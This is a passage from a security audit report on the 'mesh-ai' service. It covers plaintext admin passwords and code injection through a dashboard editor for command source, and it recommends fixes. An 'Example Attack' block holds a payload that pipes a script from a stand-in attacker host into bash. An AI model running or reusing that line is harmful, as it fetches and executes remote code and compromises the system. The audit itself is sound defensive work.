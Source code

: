 **Current Protection:**
- File permissions: `-rw-r--r--` (world-readable!)
- No hashing (unlike mail PINs which use bcrypt)

**Recommendation:**
1. **IMMEDIATE:** Hash admin passwords with bcrypt (like mail PINs)
2. Remove password from config.json, store hash in secure location
3. Change default password immediately
4. Implement password complexity requirements
5. Fix file permissions: `chmod 600 config.json`

---

### 4. **HIGH: Code Injection via Command Source Editor** 💉
**Severity:** HIGH
**CVSS Score:** 9.0 (Critical when combined with #1)

**Issue:**
Dashboard allows editing Python command source code (line 26889-26956). While it validates syntax, it allows arbitrary Python code execution:

```python
# Line 26942 - Only checks syntax, not safety
compile(new_source_content, '<string>', 'exec')

# Line 26954 - Auto-restarts service with new code
subprocess.Popen(['sudo', 'systemctl', 'restart', 'mesh-ai'])
```

**Impact:**
- **Remote Code Execution:** Inject malicious Python code
- **System Compromise:** Code runs as service user (likely with sudo)
- **Persistence:** Malicious code survives reboots
- **Privilege Escalation:** Can execute system commands

**Example Attack:**
```python
# Injected into command source via dashboard:
import subprocess
subprocess.run(['bash', '-c', 'curl attacker.com/backdoor.sh | bash'])
```

**Recommendation:**
1. **IMMEDIATE:** Require authentication (#1 fix)
2. Restrict command editing to whitelisted admins only
3. Add code sandboxing/validation beyond syntax check
4. Log all command source modifications
5. Require approval workflow for code changes
6. Consider making command source read-only in production

---

## High Findings

### 5. **HIGH: Insecure File Permissions** 📁
**Severity:** HIGH
**CVSS Score:** 5.5 (Medium)
